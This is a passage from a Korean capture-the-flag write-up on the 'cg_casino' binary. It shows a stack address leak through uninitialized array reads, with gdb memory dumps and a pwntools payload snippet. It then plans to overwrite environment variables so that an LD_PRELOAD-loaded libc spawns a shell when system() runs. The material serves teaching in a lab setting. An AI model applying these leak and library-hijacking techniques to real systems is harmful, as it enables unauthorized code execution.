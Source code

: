 ### Stack Leak
앞서 확인한대로 `lotto_4011A7()`에서 `%u` 형식이 아닌 데이터를 입력하면 `guess[i]`의 데이터를 출력할 수 있다.

`guess`는 6개의 integer 배열이므로 총 `0x18` 길이의 메모리를 확인할 수 있고 초기화되지 않은 상태에서의 `guess` 값을 확인해보면,
``` bash
gef➤  x/3gx $rsp+0x30
0x7fffffffdef0: 0x0000000000000000      0x00007ffff7ffe168
0x7fffffffdf00: 0x0000000000000000
```
libc 영역의 주소가 남아있는데 필요한 주소값이 뭔지 생각해보면 stack의 주소에 가깝다.

따라서 다른 함수를 먼저 실행해서 `$rsp+0x30` 영역에 stack 주소를 남길 수 있는지 확인해보았는데, `up_down_40139E()`을 호출한 뒤 `lotto_4011A7()`를 호출하면 가능하다.
``` bash
gef➤  x/3gx $rsp+0x30
0x7fffffffdef0: 0x0000000000000000      0x00007fffffffdf10
0x7fffffffdf00: 0x0000000000400bb0
```
`guess`는 integer이므로 3번째, 4번째 입력을 줄 때 'a'를 입력하면 4바이트씩 leak이 가능하므로, 다음과 같이 payload를 작성했다.
``` python
    updown(s, [1, 1, 1, 1, 1, 1])
    r = lotto(s, b"1 2 a 3 a 4 5 6")
    lower = int(r.split(b" : ")[0])
    upper = int(r.split(b" : ")[1].split(b"\n")[1])
    buf = upper << 32 | lower + 0x40
    log.info(f"buf : {hex(buf)}")
```

### Envp Overwrite
이제 쉘을 실행해주는 libc 파일을 `/home/cg_casino/voucher`에 안착시켰으니, 이걸 실행만 시키면 된다.

일반적으로 원하는 libc를 로드하는 테크닉으로 `LD_PRELOAD` 환경변수를 이용하는 방식이 있어서 어떻게 활용할지 고민했다.

현재 libc에 `on_unload()`를 정의해놓았으므로 두 가지를 확인해야하는데,
1. `exit(0);`을 통해서도 `on_unload()`가 호출되는지
2. 환경변수를 실행 이후에 변경해도 `LD_PRELOAD`가 적용되는지

테스트 코드를 작성해서 1번은 가능한 것을 확인했는데 아쉽게도 2번이 적용되지 않았다.

따라서 현재 프로세스의 환경변수를 조작해놓고, 그 환경변수를 가져다가 쓰는 프로세스를 실행할 수 있어야 한다.

그러다가 `slot_401477()`에서 `system("/usr/bin/clear");`을 사용하는데, 동적 분석을 할 때 다음과 같은 메세지가 출력된 것이 기억났다.
``` bash
        _______
       |JACKPOT|
=========================
|   ___    ___    ___    |
|  | ? |  | ? |  | ? |   |
|  |___|  |___|  |___|   |
=========================
|________________________|
press any key

TERM environment variable not set
```
현재 프로세스인 `cg_casino`는 환경변수가 `docker-compose.yml` 파일에서 `ERASER`를 통해 값이 밀려있는 상태이다.
